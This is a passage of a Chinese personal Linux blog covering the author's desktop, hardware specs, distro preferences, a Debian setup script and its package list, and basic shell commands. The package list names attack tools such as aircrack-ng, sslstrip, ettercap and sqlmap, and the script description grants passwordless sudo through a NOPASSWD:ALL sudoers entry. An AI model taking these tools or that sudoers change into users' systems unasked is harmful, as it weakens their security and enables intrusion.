<span class="keyword">on</span> rare occasions you will need <span class="keyword">to</span> install a device driver, The <span class="number">64</span> <span class="type">bit</span> <span class="keyword">version</span> <span class="keyword">of</span> Manjaro <span class="keyword">with</span> the Xfce desktop, boots up <span class="keyword">in</span> <span class="keyword">only</span> a few seconds <span class="keyword">and</span> uses <span class="keyword">only</span> <span class="number">200</span>MB <span class="keyword">of</span> memory <span class="keyword">to</span> run.</span><br><span class="line"></span><br><span class="line">Linux systems are very secure <span class="keyword">and</span> <span class="keyword">not</span> affected <span class="keyword">by</span> the huge amount <span class="keyword">of</span> Windows viruses, trojans, worms <span class="keyword">or</span> malware <span class="keyword">out</span> there. Anti-virus software <span class="keyword">is</span> <span class="keyword">not</span> required.</span><br><span class="line"></span><br><span class="line">什么是 Linux</span><br><span class="line">Linux是驱动 GNU 系统的内核的名称。GNU/Linux，也称为Linux，是一个自由开源的操作系统，可以自由使用和分发。</span><br><span class="line">内核可以看作是软件和硬件之间的桥梁，是操作系统的中心模块，它负责应用程序执行的进程管理、内存管理、分配和输入输出，通过使用设备驱动程序和系统进行设备管理通话控制。</span><br><span class="line"></span><br><span class="line">最初由芬兰程序员Linus Torvalds于 <span class="number">1991</span> 年开发，Linux 是一个异常强大和可靠的内核，它与 GNU 系统相结合，最常用于互联网服务器、手机、平板电脑，通常被称为 Android 设备。此外，使用 GNU/Linux 作为台式机或笔记本电脑等个人计算机的替代操作系统，这些年来也一直在增长，数百万用户已经发现了它的好处。</span><br><span class="line"></span><br><span class="line">使用 Linux 的好处</span><br><span class="line">它非常高效，速度非常快，任何硬件设备都可以开箱即用，只有在极少数情况下您需要安装设备驱动程序，带有 Xfce 桌面的 <span class="number">64</span> 位 Manjaro 版本，即使在只有 <span class="number">200</span>MB 的内存的设备也可以运行，而且只需几秒钟即可启动。</span><br><span class="line"></span><br><span class="line">Linux 系统非常安全，不受大量 Windows 病毒、木马、蠕虫或恶意软件的影响。不需要防病毒软件。</span><br></pre></td></tr></table></figure>
<p>Linux我是在用了一年半Windows后才接触到的。截至本文，用过Ubuntu、Debian、Audiophile Linux（Arch Linux）、Linux Lite，Deepin用到最后选择了<strong>Debian</strong>。原因是：<strong>稳定</strong>。</p>
<p>Debian Linux现在已经成为了我的日用主力系统，我不玩游戏。所以Linux很好的满足了我的日常听音乐（听音乐建议Windows[foobar2000万岁]或者Audiophile Linux，至少我在Debian这边的播放音质我不满意，但Audiophile Linux可还行）、编程、编辑文档等工作。</p>
<p>Linux使用感想很多，至少现在用了快五年Linux了(截至2021年)，完全不想回Windows。Windows我应该几百年没开了吧……虽然Linux用的很爽，但是我现在却想不到说啥。或许是因为太稳定了，没有让我特别操心的地方。或许就像白开水一样，百喝不厌，却又平淡无奇，很重要，却又最容易让人忽视（就像行政班，做好了没人表扬，出了事人人骂行政）。</p>
<h2 id="Linux桌面-GNOME-or-KDE"><a href="#Linux桌面-GNOME-or-KDE" class="headerlink" title="Linux桌面 - GNOME or KDE?"></a>Linux桌面 - GNOME or KDE?</h2><p>我习惯了GNOME，简洁明了，不喜欢KDE的类似Windows的桌面。KDE我用了好几次，前前后后加起来使用了大概一年的样子，最后忍无可忍切回了GNOME，虽然没有KDE好看，但就像是Linux给我的感受一样，平平淡淡就是福。</p>
<p>下面是我的Linux桌面，隐藏了Dash to Dock和顶栏，没有任务栏和系统托盘。但我有tint2任务栏备用，随时可以开启系统托盘。</p>
<p></p>
<p>下图是工作区</p>
<p> </p>
<p> </p>
<p> </p>
<p>Linux权限管理比较严格，很多时候需要管理员确认</p>
<p>    </p>
<p>在命令行浏览网页</p>
<p> </p>
<p>应用市场</p>
<p> </p>
<p>在Docker中测试语音识别</p>
<p> </p>
<p>Linux中GIMP、Kdenlive和Audacity可以满足我日常编辑图像、视频、音频。</p>
<p>   </p>
<p>使用Scrcpy控制手机、安卓手机用Termux开了个远程桌面：</p>
<p>  </p>
<p>给办公室的电脑添加打印机：</p>
<p>  </p>
<p>开启服务器分享文件</p>
<p> </p>
<p>每天到办公室第一件事：<code>git pull</code></p>
<p></p>
<p>同样使用OBS直播，Linux这边不怎么发烫，虽然音质没有Windows好，有一说一。</p>
<h1 id="我的设备-Device"><a href="#我的设备-Device" class="headerlink" title="我的设备 - Device"></a>我的设备 - Device</h1><p><strong>笔记本 - Laptop：</strong></p>
<p>配置：</p>
<figure class="highlight angelscript"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br></pre></td><td class="code"><pre><span class="line">笔记本型号: 惠普HP Notebook TPN-I119 <span class="number">14</span>-ar105TX</span><br><span class="line">CPU：i5<span class="number">-7200</span>U</span><br><span class="line">RAM：<span class="number">12</span>G（<span class="number">4</span>+<span class="number">8</span>）</span><br><span class="line">HardDisk：<span class="number">256</span>G SSD+<span class="number">512</span>G SSD</span><br><span class="line">GPU：Intel Corporation HD Graphics <span class="number">620</span> + AMD Radeon M330</span><br><span class="line">OS：Debian <span class="number">11</span> bullseye</span><br><span class="line">Wireless：RTL8723BE(<span class="number">2.4</span>G)</span><br><span class="line">蓝牙：RTL8723BENF</span><br></pre></td></tr></table></figure>
<p>Linux运行情况：良好</p>
<p></p>
<p><strong>台式机 - PC：</strong></p>
<p>配置：</p>
<figure class="highlight angelscript"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br></pre></td><td class="code"><pre><span class="line">型号: 组装机</span><br><span class="line">CPU+Mother Board：i5<span class="number">-12400</span>+ASUS PRIME B660M-K	￥<span class="number">1599</span>元</span><br><span class="line">RAM：<span class="number">16</span>G（<span class="number">8</span>+<span class="number">8</span>）Kigston DDR4 <span class="number">3200</span>MHz	￥<span class="number">269</span>元</span><br><span class="line">HardDisk：Samsung <span class="number">980</span>Pro <span class="number">1</span>TB PCIe <span class="number">4.0</span>	￥<span class="number">502</span> + Kingston SNV2S250G PCIe <span class="number">4.0</span> ￥<span class="number">169</span>元</span><br><span class="line">GPU：Sapphire AMD RX6600 <span class="number">8</span>G	￥<span class="number">1471</span>元 + Intel Corporation UHD Graphics <span class="number">730</span></span><br><span class="line">CPU Radiator：利民Thermalright AX120R SE	￥<span class="number">89.9</span>元</span><br><span class="line">Power <span class="keyword">and</span> Case <span class="keyword">and</span> Radiator：Case:Huntkey航嘉超越<span class="number">3</span>+Fan:<span class="number">3</span>*<span class="number">12</span>cm风扇+Power:航嘉WD650K <span class="number">650</span>W ￥<span class="number">535</span>元</span><br><span class="line">Radiator：Phanteks M25<span class="number">-120</span> <span class="number">1</span>*<span class="number">14</span>cm	￥<span class="number">65</span>元</span><br><span class="line">Monitor：HKC T2752Q <span class="number">2</span>K	￥<span class="number">649</span>元</span><br><span class="line">Keyboard：双飞燕A4-Tech FX60 ￥<span class="number">168.9</span>元 </span><br><span class="line">Mouse：讯飞iFlyTek XFSA-A002</span><br><span class="line">Wireless：DWA<span class="number">-192</span>(RTL8814AU)(<span class="number">2.4</span>G/<span class="number">5</span>G)</span><br><span class="line">Camera：绿联UGREEN CM678</span><br><span class="line">OS：Debian <span class="number">12</span> bookworm</span><br><span class="line">合计：￥ <span class="number">5517.8</span>元</span><br><span class="line">仅核显主机价：￥ <span class="number">3228.9</span>元</span><br></pre></td></tr></table></figure>
<p></p>
<p>Linux运行情况：良好</p>
<p>硬件详情：<a href="https://linux-hardware.org/?probe=dad31fab00" target="_blank" rel="noopener">linux-hardware</a></p>
<h2 id="硬件外设-Hardware"><a href="#硬件外设-Hardware" class="headerlink" title="硬件外设 - Hardware"></a>硬件外设 - Hardware</h2><h3 id="USB摄像头"><a href="#USB摄像头" class="headerlink" title="USB摄像头"></a>USB摄像头</h3><p>绿联CM678</p>
<h3 id="USB键盘"><a href="#USB键盘" class="headerlink" title="USB键盘"></a>USB键盘</h3><p>双飞燕A4-Tech FX60</p>
<p>FN+Esc：是否锁定功能键</p>
<p><code>FN + ↑/↓</code>：屏幕亮度</p>
<p><code>FN + ←/→</code>：键盘背光亮度</p>
<h3 id="USB刻录光驱"><a href="#USB刻录光驱" class="headerlink" title="USB刻录光驱"></a>USB刻录光驱</h3><p>绿联CM138</p>
<h3 id="USB蓝牙"><a href="#USB蓝牙" class="headerlink" title="USB蓝牙"></a>USB蓝牙</h3><p>（不支持）</p>
<p>绿联CM390（RTL8761BUV）</p>
<h3 id="USB无线网卡"><a href="#USB无线网卡" class="headerlink" title="USB无线网卡"></a>USB无线网卡</h3><p>5GHz：AC600M RTL8811CU</p>
<p>2.4GHz：RTL8192CU  支持热点</p>
<h2 id="其他设备"><a href="#其他设备" class="headerlink" title="其他设备"></a>其他设备</h2><p>华为麒麟990（8核arm64）+Kylin v10 sp1（银河麒麟）：<a href="https://linux-hardware.org/?probe=b3d022d177" target="_blank" rel="noopener">https://linux-hardware.org/?probe=b3d022d177</a></p>
<p>华为鲲鹏920（8核arm64）+UOS（统信）:<a href="https://linux-hardware.org/?probe=9c60527586" target="_blank" rel="noopener">https://linux-hardware.org/?probe=9c60527586</a></p>
<h1 id="使用经验-Something-to-share-with-you"><a href="#使用经验-Something-to-share-with-you" class="headerlink" title="使用经验 - Something to share with you"></a>使用经验 - Something to share with you</h1><figure class="highlight angelscript"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br></pre></td><td class="code"><pre><span class="line">我们信任您已经从系统管理员那里了解了日常注意事项。</span><br><span class="line">总结起来无外乎这三点：</span><br><span class="line"><span class="number">1</span>) 尊重别人的隐私。</span><br><span class="line"><span class="number">2</span>) 输入前要先考虑(后果和风险)。</span><br><span class="line"><span class="number">3</span>) 权力越大，责任越大。</span><br></pre></td></tr></table></figure>
<p>关于Linux的安全。Linux这边我就装了个Clam AV 病毒扫描软件。说实在的，要安全还是去Windows会好一点，杀毒软件会牛一点。因为Linux这边真的只能靠自己维护系统安全了，Linux病毒有，很多，很多挖矿病毒等等。所以我平时用Linux都很注意软件来源，不随便运行脚本。软件包几乎都是APT仓库的，或者Flatpak仓库。不得不说Flatpak很笨重……</p>
<p> [引用Install-Audiophile-Linux-v5-with-UEFI-GPT文章]</p>
<p>防火墙很重要，iptable[尽管这只是设置拦截规则吧]自己设置好。实在不会设置的小白去装个GUFW就很容易了。</p>
<p>Linux一般都有一个专门的软件仓库，就像苹果的App Store一样。</p>
<h1 id="Linux发行版推荐-About-Linux-Distributions"><a href="#Linux发行版推荐-About-Linux-Distributions" class="headerlink" title="Linux发行版推荐 - About Linux Distributions"></a>Linux发行版推荐 - About Linux Distributions</h1><blockquote>
<p>这里是作为桌面环境跟大家做推荐，高级用户用的<a href="https://www.gentoo.org/" target="_blank" rel="noopener">Gentoo</a>啦还有<a href="http://www.linuxfromscratch.org/lfs/" target="_blank" rel="noopener">LFS</a>我这里不讲。之外的<a href="www.linuxfx.org/">Linuxfx</a>、<a href="https://www.suse.com/" target="_blank" rel="noopener">SUSE</a>、<a href="https://www.deepin.org/zh/" target="_blank" rel="noopener">Deepin</a>等等我也不说，嘿嘿，我就说我喜欢的发行版和推荐理由，个人主观性强，仅供参考。</p>
</blockquote>
<p><strong>配置好</strong>的用Debian sid或者Manjaro。</p>
<ul>
<li>Debian<ul>
<li>Debian stable稳定是稳定，软件包太旧。所以选择sid，真香。至于Ubuntu啊，开箱即用当然比Debian好，但是自从它崩过两次，被我啦黑了，Debian开箱即用差点，调教好是真的爽。当然，如果你不在乎新软件，请使用Debian stable，因为Debian stable我用了三年，没啥毛病……被我当作实验品折腾（因为是当时刚转Linux，选了一个乱搞，什么Wine什么乱七八糟都搞过，嗯，比Ubuntu稳定「Ubuntu就是被我瞎搞，搞炸了……」）。</li>
<li>习惯了<code>apt</code> ！！而且，很多地方默认提供deb软件包，方便。</li>
</ul>
</li>
<li>manjaro<ul>
<li>其实就是Arch家族啦，但manjaro开箱即用比Arch好，所以推荐它而不是推荐Arch。</li>
<li>软件包新，<code>rolling</code>不香吗？<code>sudo pacman -Syu</code>不香吗？？</li>
<li>pacman确实简单粗暴，不像apt啰哩啰唆的。</li>
</ul>
</li>
</ul>
<p><strong>配置不好</strong>的用Arch Linux + Fluxbox。</p>
<ul>
<li>Fluxbox：这是一个窗口管理器「Windows Manager」，不是桌面环境「Desktop Environment ,比如GNOME、KDE、Xfce4」，我也是有用它的，确实让我的旧电脑运行的舒畅的起飞，界面清新、反应迅速。</li>
<li>或者Xfce4也可以，我把Xfce4配置成了Windows10的模样，这样给父母用会比较习惯。</li>
</ul>
<p></p>
<p>[引用Install-Audiophile-Linux-v5-with-UEFI-GPT文章]</p>
<h1 id="快速打造我的工作台-Todo-when-setting-up-a-new-Debian-GNU-Linux"><a href="#快速打造我的工作台-Todo-when-setting-up-a-new-Debian-GNU-Linux" class="headerlink" title="快速打造我的工作台 - Todo when setting up a new Debian GNU/Linux"></a>快速打造我的工作台 - Todo when setting up a new Debian GNU/Linux</h1><p>Debian镜像默认没有闭源驱动，所以如果你想要载带有闭源驱动的镜像请点击 <a href="https://cdimage.debian.org/cdimage/unofficial/non-free/cd-including-firmware/" target="_blank" rel="noopener">这里</a> | 固件打包下载在 <a href="https://cdimage.debian.org/cdimage/unofficial/non-free/firmware/" target="_blank" rel="noopener">这里</a> | 关于固件问题请查看 <a href="https://www.debian.org/releases/bullseye/i386/ch06s04.zh-cn.html" target="_blank" rel="noopener">手册这里</a> 。</p>
<p>脚本文件已经转移到</p>
<p>Github &gt; <a href="https://github.com/rmshadows/rm_scripts" target="_blank" rel="noopener">https://github.com/rmshadows/rm_scripts</a></p>
<p>Gitee [不一定最新] &gt; <a href="https://gitee.com/rmshadows/rm_scripts" target="_blank" rel="noopener">https://gitee.com/rmshadows/rm_scripts</a></p>
<figure class="highlight awk"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br></pre></td><td class="code"><pre><span class="line">git clone https:<span class="regexp">//gi</span>thub.com<span class="regexp">/rmshadows/</span>rm_scripts.git</span><br><span class="line"></span><br><span class="line">git clone https:<span class="regexp">//gi</span>tee.com<span class="regexp">/rmshadows/</span>rm_scripts.git</span><br><span class="line"></span><br><span class="line">wget https:<span class="regexp">//gi</span>tee.com<span class="regexp">/rmshadows/</span>rm_scripts<span class="regexp">/raw/m</span>ain<span class="regexp">/Debian_GNOME_Init/</span>Debian_Bullseye_GNOME_Setup.sh</span><br><span class="line"></span><br><span class="line">wget https:<span class="regexp">//gi</span>thub.com<span class="regexp">/rmshadows/</span>rm_scripts<span class="regexp">/raw/m</span>ain<span class="regexp">/Debian_GNOME_Init/</span>Debian_Bullseye_GNOME_Setup.sh</span><br></pre></td></tr></table></figure>
<p>脚本内容大致如下：(此未旧版本内容，新版本请查看仓库！)</p>
<p>更新时间：2021-10-27</p>
<blockquote>
<p>检查点中如无<strong>必选</strong>两个字，默认为可选、可配置项目。</p>
<p>(滞后)表示放于脚本末尾执行。</p>
</blockquote>
<ul>
<li>运行环境检查<ul>
<li>首先检查用户是否在<code>sudo</code>组中且免密码。如果没有，临时添加<code>$USER ALL=(ALL)NOPASSWD:ALL</code>进<code>/etc/sudoers</code>文件中(运行结束或者Ctrl+c中断会自动移除)。</li>
<li>检查是否时GNOME桌面，不是则警告、退出。</li>
</ul>
</li>
<li>检查点一<ul>
<li>临时成为免密<code>sudoer</code>(必选)。</li>
<li>添加用户到<code>sudo</code>组。</li>
<li>设置用户<code>sudo</code>免密码。</li>
<li>默认源安装apt-transport-https ca-certificates wget gnupg2 gnupg lsb-release</li>
<li>更新源、更新系统。</li>
<li>配置unattended-upgrades</li>
</ul>
</li>
<li>检查点二<ul>
<li>替换vim-tiny为vim-full</li>
<li>替换Bash为Zsh</li>
<li>替换默认的ZSHRC文件</li>
<li>添加/usr/sbin到用户的SHELL环境变量</li>
<li>替换root用户的SHELL配置</li>
<li>安装bash-completion</li>
<li>安装zsh-autosuggestions</li>
</ul>
</li>
<li>检查点三<ul>
<li>自定义自己的服务（运行一个shell脚本）</li>
<li>配置Nautilus右键菜单以及Data、Project、Vbox-Tra、Prog、Mounted文件夹</li>
<li>配置启用NetworkManager、安装net-tools</li>
<li>设置网卡eth0为热拔插模式以缩短开机时间。如果没有eth0网卡，发出警告、跳过</li>
<li>配置GRUB网卡默认命名方式</li>
</ul>
</li>
<li><p>检查点四</p>
<ul>
<li>从APT源安装常用软件</li>
<li>脚本最后再安装的应用(滞后)</li>
<li><p>安装Python3</p>
<ul>
<li>配置Python3源为清华大学镜像</li>
</ul>
</li>
<li><p>安装配置Apache2</p>
<ul>
<li>配置Apache2 共享目录为 /home/HTML(必选)</li>
<li>是否禁用Apache2开机自启</li>
</ul>
</li>
<li><p>安装配置Git</p>
<ul>
<li>配置User Email</li>
</ul>
</li>
<li><p>安装配置SSH</p>
</li>
<li><p>安装配置npm</p>
<ul>
<li>安装cnpm</li>
<li>安装hexo</li>
<li>安装nodejs(必选)</li>
</ul>
</li>
<li><p>安装VirtualBox(滞后)</p>
</li>
<li><p>安装Anydesk(滞后)</p>
</li>
<li><p>安装Typora(滞后)</p>
</li>
<li><p>安装sublime text(滞后)</p>
</li>
<li><p>安装teamviewer(滞后)</p>
</li>
<li><p>安装wps-office(滞后)</p>
</li>
<li><p>安装skype(滞后)</p>
</li>
<li><p>安装docker-ce(滞后)</p>
</li>
<li><p>安装网易云音乐(滞后)</p>
</li>
<li><p>禁用第三方软件仓库更新(提升apt体验)(滞后)</p>
</li>
</ul>
</li>
<li><p>检查点五</p>
<ul>
<li>配置中州韵输入法(fcitx、ibus、fcitx5)</li>
<li>配置词库(github导入公共词库、导入本地词库)</li>
</ul>
</li>
<li><p>检查点六</p>
<ul>
<li>配置SSH Key(新密钥，导入)</li>
</ul>
</li>
<li><p>检查点七(谨慎使用！可能弄坏您的应用程序！)</p>
<ul>
<li>备份原有的dconf配置</li>
<li>导入GNOME Terminal的dconf配置</li>
<li>导入GNOME 您自定义修改的系统内置快捷键的dconf配置</li>
<li>导入GNOME 自定义快捷键的dconf配置</li>
<li>导入GNOME 选区截屏配置</li>
<li>导入GNOME 屏幕放大镜配置</li>
<li>导入GNOME 电源配置</li>
</ul>
</li>
<li><p>最后一步</p>
<ul>
<li>设置用户目录权限</li>
</ul>
</li>
</ul>
<h2 id="截屏"><a href="#截屏" class="headerlink" title="截屏"></a>截屏</h2><p>使用演示:</p>
<p>Debian 11 部署脚本 2021-10：</p>
<p><iframe src="//player.bilibili.com/player.html?aid=548768893&bvid=BV1iq4y1G7Ns&cid=431543129&page=1&autoplay=0" frameborder="no" scrolling="no" width="95%" height="600" border="0" framespacing="0" allowfullscreen="true"></iframe></p>

<p>Debian 10 部署脚本 2020-10:</p>
<p><iframe src="//player.bilibili.com/player.html?aid=330015574&bvid=BV1WA411E72a&cid=248122514&page=1&autoplay=0" frameborder="no" scrolling="no" width="95%" height="600" border="0" framespacing="0" allowfullscreen="true"></iframe></p>

<p>使用截屏(旧版本)：</p>
<p> </p>
<p> </p>
<p></p>
<h2 id="软件包清单——Applications"><a href="#软件包清单——Applications" class="headerlink" title="软件包清单——Applications"></a>软件包清单——Applications</h2><ul>
<li>aircrack-ng——aircrack-ng</li>
<li>apt-listbugs——apt显示bug信息</li>
<li>apt-listchanges——apt显示更改</li>
<li>apt-transport-https——apt-transport-https</li>
<li>arp-scan——arp-scan</li>
<li>axel——axel下载器</li>
<li>bash-completion——终端自动补全</li>
<li>bleachbit——系统清理软件</li>
<li>blender——3D开发</li>
<li>bridge-utils——网桥</li>
<li>build-essential——开发环境</li>
<li>bustle——D-Bus记录</li>
<li>calibre——Epub等多格式电子书阅读器</li>
<li>cewl——CeWL网站字典生成(关键词采集)</li>
<li>cifs-utils——访问Windows共享文件夹</li>
<li>clamav——Linux下的杀毒软件</li>
<li>cmake——cmake</li>
<li>cowpatty——wireless hash</li>
<li>crunch——字典生成</li>
<li>cups——cups打印机驱动</li>
<li>curl——curl</li>
<li>dislocker——查看bitlocker分区</li>
<li>dos2unix——将Windows下的文本文档转为Linux下的文本文档</li>
<li>drawing——GNOME画图</li>
<li>dsniff——网络审计</li>
<li>ettercap-graphical——ettercap-graphical</li>
<li>extremetuxracer——滑雪游戏</li>
<li>flatpak——flatpak平台</li>
<li>fonts-lexi-saebom——韩文字体，韩文支持</li>
<li>freeplane——思维导图</li>
<li>fritzing——电路设计</li>
<li>fping——fping</li>
<li>fuse——配合dislocker查看bitlocker分区</li>
<li>g++——C++</li>
<li>gajim——即时通讯</li>
<li>gcc——C</li>
<li>gedit-plugin*——Gedit插件</li>
<li>gimp——gimp图片编辑</li>
<li>glance——一个可以代替htop的软件</li>
<li>gnome-recipes——GNOME西餐菜单</li>
<li>gnome-shell-extension-appindicator——GNOME扩展</li>
<li>gnome-shell-extension-arc-menu——GNOME扩展+ARC菜单</li>
<li>gnome-shell-extension-autohidetopbar——GNOME扩展+自动隐藏顶栏</li>
<li>gnome-shell-extension-bluetooth-quick-connect——GNOME扩展+蓝牙快速连接</li>
<li>gnome-shell-extension-caffeine——GNOME扩展+防止屏幕休眠</li>
<li>gnome-shell-extension-dashtodock——GNOME扩展+DashtoDock侧栏</li>
<li>gnome-shell-extension-dash-to-panel——GNOME扩展+任务栏</li>
<li>gnome-shell-extension-desktop-icons——GNOME扩展+桌面图标</li>
<li>gnome-shell-extension-disconnect-wifi——GNOME扩展+断开wifi</li>
<li>gnome-shell-extension-draw-on-your-screen——GNOME扩展+屏幕涂鸦</li>
<li>gnome-shell-extension-freon——GNOME扩展+顶栏显示磁盘温度</li>
<li>gnome-shell-extension-gamemode——GNOME扩展+游戏模式</li>
<li>gnome-shell-extension-hard-disk-led——GNOME扩展</li>
<li>gnome-shell-extension-hide-activities——GNOME扩展</li>
<li>gnome-shell-extension-hide-veth——GNOME扩展</li>
<li>gnome-shell-extension-impatience——GNOME扩展</li>
<li>gnome-shell-extension-kimpanel——GNOME扩展</li>
<li>gnome-shell-extension-move-clock——GNOME扩展+移动时钟</li>
<li>gnome-shell-extension-multi-monitors——GNOME扩展+多屏幕支持</li>
<li>gnome-shell-extension-no-annoyance——GNOME扩展</li>
<li>gnome-shell-extension-panel-osd——GNOME扩展</li>
<li>gnome-shell-extension-pixelsaver——GNOME扩展</li>
<li>gnome-shell-extension-prefs——GNOME扩展</li>
<li>gnome-shell-extension-redshift——GNOME扩展</li>
<li>gnome-shell-extension-remove-dropdown-arrows——GNOME扩展</li>
<li>gnome-shell-extensions——GNOME扩展</li>
<li>gnome-shell-extensions-gpaste——GNOME扩展+GNOME剪辑板</li>
<li>gnome-shell-extension-shortcuts——GNOME扩展</li>
<li>gnome-shell-extension-show-ip——GNOME扩展+顶栏菜单显示IP</li>
<li>gnome-shell-extension-system-monitor——GNOME扩展+顶栏资源监视器</li>
<li>gnome-shell-extension-tilix-dropdown——GNOME扩展</li>
<li>gnome-shell-extension-tilix-shortcut——GNOME扩展</li>
<li>gnome-shell-extension-top-icons-plus——GNOME扩展</li>
<li>gnome-shell-extension-trash——GNOME扩展</li>
<li>gnome-shell-extension-volume-mixer——GNOME扩展</li>
<li>gnome-shell-extension-weather——GNOME扩展+天气</li>
<li>gnome-software-plugin-flatpak——GNOME Flatpak插件</li>
<li>gnucash——GNU账本</li>
<li>grub-customizer——GRUB或BURG定制器</li>
<li>gtranslator——GNOME本地应用翻译编辑</li>
<li>gufw——防火墙</li>
<li>handbrake——视频转换</li>
<li>hugin——全景照片拼合工具</li>
<li>homebank——家庭账本</li>
<li>hostapd——AP热点相关</li>
<li>hping3——hping3</li>
<li>htop——htop彩色任务管理器</li>
<li>httrack——网站克隆</li>
<li>inotify-tools——inotify文件监视</li>
<li>kdenlive——kdenlive视频编辑</li>
<li>konversation——IRC客户端</li>
<li>krename——KDE社区开发的批量文件重命名</li>
<li>krfb——KDE社区开发的VNC服务器</li>
<li>libblockdev*——文件系统相关的插件</li>
<li>libgtk-3-dev——GTK3</li>
<li>linux-headers-$(uname -r)——Linux Headers</li>
<li>lshw——显示硬件</li>
<li>make——make</li>
<li>masscan——masscan</li>
<li>mc——MidnightCommander</li>
<li>mdk3——mdk3</li>
<li>nautilus-extension-*——nautilus插件</li>
<li>ncrack——ncrack</li>
<li>neofetch——系统信息</li>
<li>net-tools——ifconfig等工具</li>
<li>nmap——nmap</li>
<li>nodejs——nodejs</li>
<li>npm——nodejs包管理器</li>
<li>obs-studio——OBS</li>
<li>openssh-server——SSH</li>
<li>paperwork-gtk——办公文档扫描</li>
<li>pavucontrol——PulseAudioVolumeControl</li>
<li>pkg-config——pkg-config</li>
<li>pulseeffects——pulse audio的调音器</li>
<li>pwgen——随机密码生成</li>
<li>qmmp——qmmp音乐播放器</li>
<li>reaver——无线WPS测试</li>
<li>sed——文本编辑工具</li>
<li>silversearcher-ag——Ag快速搜索工具</li>
<li>slowhttptest——慢速HTTP链接测试</li>
<li>smbclient——SMB共享查看</li>
<li>sqlmap——sqlmap</li>
<li>sshfs——挂载远程SSH目录</li>
<li>sslstrip——https降级</li>
<li>supertuxkart——Linux飞车游戏</li>
<li>sweethome3d——室内设计</li>
<li>synaptic——新立得包本地图形化管理器</li>
<li>tcpdump——tcpdump</li>
<li>tig——tig(类似github桌面)</li>
<li>tree——树状显示文件夹</li>
<li>traceroute——路由跟踪</li>
<li>vim——VIM编辑器</li>
<li>vlc——vlc视频播放器</li>
<li>wafw00f——网站防火墙检测</li>
<li>websploit——Web渗透测试</li>
<li>wget——wget网络下载工具</li>
<li>wireshark——wireshark</li>
<li>xdotool——X自动化工具</li>
<li>xprobe——网页防火墙测试</li>
<li>zenity——显示GTK+对话框</li>
<li>zhcon——tty中文虚拟</li>
<li>zsh——zsh</li>
<li>zsh-autosuggestions——zsh插件</li>
</ul>
<h1 id="GNU-Linux-Notes"><a href="#GNU-Linux-Notes" class="headerlink" title="GNU/Linux Notes"></a>GNU/Linux Notes</h1><blockquote>
<p>下文记录的是个人使用Debian Linux、Kali Linux、Arch Linux四年来的部分笔记。大部分是通用的，但有一部分只能在Debian上实现，有一部分只能在Kali上实现，还有一部分只能在Arch上实现，所以仅供参考。</p>
<p>Debian官方给新手的<a href="https://www.debian.org/doc/manuals/debian-handbook/short-remedial-course.zh-cn.html" target="_blank" rel="noopener">指导</a></p>
</blockquote>
<h2 id="部分常用命令示例"><a href="#部分常用命令示例" class="headerlink" title="部分常用命令示例"></a>部分常用命令示例</h2><ul>
<li><p><code>ar</code> —— 查看归档文件</p>
<figure class="highlight sql"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br></pre></td><td class="code"><pre><span class="line"><span class="comment"># 查看deb归档内容</span></span><br><span class="line">$ ar t /var/<span class="keyword">cache</span>/apt/archives/apt_1<span class="number">.4</span>~beta1_amd64.deb      </span><br><span class="line">	debian-<span class="built_in">binary</span></span><br><span class="line">	control.tar.gz</span><br><span class="line">	data.tar.xz</span><br><span class="line"><span class="comment"># 查看debian-binary中的归档格式</span></span><br><span class="line">$ ar p /<span class="keyword">var</span>/<span class="keyword">cache</span>/apt/archives/apt_1<span class="number">.4</span>~beta1_amd64.deb debian-<span class="built_in">binary</span></span><br><span class="line"><span class="comment"># 查看control.tar.gz 这里面一般包含包的源信息</span></span><br><span class="line">$ ar p /<span class="keyword">var</span>/<span class="keyword">cache</span>/apt/archives/apt_1<span class="number">.4</span>~beta1_amd64.deb control.tar.gz | tar -tzf -</span><br><span class="line"><span class="comment"># 最后一个data文件包含将要安装到系统内的文件</span></span><br><span class="line">$ ar p /<span class="keyword">var</span>/<span class="keyword">cache</span>/apt/archives/apt_1<span class="number">.4</span>~beta1_amd64.deb data.tar.xz | tar -tJf</span><br></pre></td></tr></table></figure>
</li>
<li><p><code>update-alternatives</code> ：设置版本偏好，见下文Linux的使用技巧。</p>
</li>
<li><p><code>blkid</code>  : 显示GPT磁盘信息uuid</p>
</li>
<li><p><code>cd -</code> ：回到上个工作区</p>
</li>
<li><p><code>chgrp 【grp】 【file】</code> ：修改文件所有组为【】</p>
</li>
<li><p><code>chmod u=【】,g=【】,o=【】 【file】</code> ：修改权限</p>
</li>
<li><p><code>chmod -R a+X 【path】</code> ：只要path中有文件存在x参数则a=ugo全部添加x参数</p>
</li>
<li><p><code>chown -hR 【username】 .</code>  ：当前目录及子目录所有者为【】</p>
</li>
<li><p><code>df 【option】</code> ：显示磁盘剩余（可选项null、-h【人性化显示】、-T【显示文件系统类型】）</p>
</li>
<li><p><code>dmesg</code> : 查看内核日志</p>
</li>
<li><p><code>du</code> ：显示文件大小</p>
<ul>
<li><code>du -sh ./*</code> ：显示当前文件夹大小</li>
<li><code>du -h --max-depth=1</code> ：指定深度</li>
<li><code>du -s | sort -nr</code> ：排序</li>
</ul>
</li>
<li><p><code>echo 【String】</code> ：显示字符</p>
</li>
<li><p><code>echo 【String】&gt; 【path：file】</code> ：修改某文件内容为String</p>
</li>
<li><p><code>echo 【String】&gt;&gt; 【path：file】</code> ：在某文件原内容下行加上String</p>
</li>
<li><p><code>echo $PATH | tr &#39;:&#39; &#39;\n&#39;</code> ：把‘：’替换为“\n”</p>
</li>
